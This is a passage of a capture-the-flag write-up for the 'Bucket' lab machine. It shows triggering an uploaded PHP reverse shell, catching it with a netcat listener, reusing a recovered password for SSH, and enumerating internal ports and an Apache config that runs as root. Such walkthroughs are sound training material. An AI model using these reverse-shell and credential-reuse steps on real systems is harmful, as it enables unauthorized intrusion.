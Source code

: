 Now browse to `http://bucket.htb/php-reverse-shell.php` and we get a shell back!

```
$ nc -lvp 1234
Listening on 0.0.0.0 1234
Connection received on bucket.htb 51114
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:29:30 up  6:27,  0 users,  load average: 0.02, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Looking around I found a user "Roy" and tried to ssh with the name "ROY" and the password "n2vM-<_K_Q:.Aa2" (From earlier) and we get the user flag.

Started looking around and found some interesting open ports.

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33073         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
```

Port 8000 was not available when I scanned from outside. Neither was 4566. I curled the port 8000 and 4566 and got some content back. I decided to find their source code. I went ahead and found the apache config file.

```
<VirtualHost 127.0.0.1:8000>
	<IfModule mpm_itk_module>
		AssignUserId root root
	</IfModule>
	DocumentRoot /var/www/bucket-app
</VirtualHost>

ProxyPass / http://localhost:4566/
	ProxyPassReverse / http://localhost:4566/
	<Proxy *>
		 Order deny,allow
		 Allow from all
	 </Proxy>
	ServerAdmin webmaster@localhost
	ServerName s3.bucket.htb
```
